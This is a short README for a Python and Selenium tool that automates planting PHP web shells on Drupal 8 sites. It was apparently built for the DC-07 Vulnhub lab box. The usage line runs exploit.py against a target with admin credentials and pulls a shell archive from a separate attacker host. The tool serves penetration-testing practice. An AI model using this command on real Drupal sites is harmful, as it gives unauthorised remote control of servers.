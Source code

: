 # Drupal 8 Webshell
Automates the creation of Drupal php shells. Tested on the DC-07 Vulnhub box, created for Linux.

## Requirements
* Python3
* Selenium
* Firefox
## Usage
```
python3 exploit.py http://mydrupal.com admin:admin http://192.168.1.123:4444/php.tar.gz
```

